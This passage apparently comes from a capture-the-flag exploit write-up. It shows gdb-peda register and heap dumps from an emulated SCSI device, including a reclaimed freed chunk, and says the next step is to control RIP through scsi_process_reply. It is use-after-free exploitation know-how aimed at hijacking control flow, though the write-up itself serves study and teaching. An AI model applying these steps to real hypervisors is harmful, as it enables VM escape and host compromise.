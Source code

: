 ```


gdb-peda$ x/10xg 0x7f278c2d9a00-0x10
0x7f278c2d99f0:	0x0000000000000000	0x0000000000000205
0x7f278c2d9a00:	0x000055d45f17b0c0	0x000055d45e115da0
0x7f278c2d9a10:	0x000055d45cf53940	0x0000000000000002
0x7f278c2d9a20:	0xffffffff00000000	0x000055d45f17a6f0
0x7f278c2d9a30:	0x0000000000000000	0x0000513417004012

RAX: 0x7f278c2d9a00 --> 0x0 ***RECLAIMED!!!!!***
RBX: 0x7ffd9d3e2078 
RCX: 0x7f278c0008d0 --> 0x706070707070707 
RDX: 0x7f278c2d9a00 --> 0x0 
RSI: 0x7f278c0009c0 --> 0x7f278c757e80 --> 0x7f278c2cd400 --> 0x7f278c2d7280 --> 0x0 
RDI: 0x0 
RBP: 0x7f279da402f0 --> 0x7f279da40330 --> 0x7f279da40380 --> 0x7f279da403f0 --> 0x7f279da40430 --> 0x7f279da40490 (--> ...)
RSP: 0x7f279da402d0 --> 0x1f0 
RIP: 0x55d45c51d9b0 (<ctf_add_cmd_data+112>:	mov    rdx,rax)
R8 : 0x4 
R9 : 0xffffffff 
R10: 0x55d45c28b112 (<helper_le_stl_mmu>:	push   rbp)
R11: 0x0 
R12: 0x7f9c66ef501c 
R13: 0x1f0 
R14: 0x55d45e091c50 --> 0x1f0 
R15: 0x7ffd3f83cf60 --> 0x55d45e089190 --> 0x55d45dff7e00 --> 0x55d45df8e8b0 --> 0x55d45df8ea30 --> 0x63697061 ('apic')
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x55d45c51d9a4 <ctf_add_cmd_data+100>:	mov    rax,QWORD PTR [rbp-0x20]
   0x55d45c51d9a8 <ctf_add_cmd_data+104>:	mov    rdi,rax
   0x55d45c51d9ab <ctf_add_cmd_data+107>:	call   0x55d45c2188f8 <malloc@plt>
=> 0x55d45c51d9b0 <ctf_add_cmd_data+112>:	mov    rdx,rax
```

Now we have to control the RIP.  
`scsi_process_reply` will do the **MAGIC**.  
```
RAX: 0x0 
RBX: 0x7ffddd4e1940 
RCX: 0x20 (' ')
RDX: 0x1734 
RSI: 0x1734 
RDI: 0x7fdfc42d9000 --> 0x0 
RBP: 0x7fdfd5dd0280 --> 0x7fdfd5dd02c0 --> 0x7fdfd5dd02f0 --> 0x7fdfd5dd0330 --> 0x7fdfd5dd0380 --> 0x7fdfd5dd03f0 (--> ...)
RSP: 0x7fdfd5dd0270 --> 0x7fdfc42d9000 --> 0x0 
RIP: 0x563e23bd09e2 (<scsi_req_get_buf+20>:	mov    rax,QWORD PTR [rax+0x28])
R8 : 0x4 
R9 : 0xffffffff 
R10: 0x563e23962112 (<helper_le_stl_mmu>:	push   rbp)
R11: 0x2 
R12: 0x7fee706d1018 
R13: 0x0 
R14: 0x563e25e34c50 --> 0x0 
R15: 0x7ffdaac4e400 --> 0x563e25e2c190 --> 0x563e25d9ae00 --> 0x563e25d318b0 --> 0x563e25d31a30 --> 0x63697061 ('apic')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x563e23bd09d6 <scsi_req_get_buf+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x563e23bd09da <scsi_req_get_buf+12>:	mov    rax,QWORD PTR [rbp-0x8]
   0x563e23bd09de <scsi_req_get_buf+16>:	mov    rax,QWORD PTR [rax+0x10]
=> 0x563e23bd09e2 <scsi_req_get_buf+20>:	mov    rax,QWORD PTR [rax+0x28]
```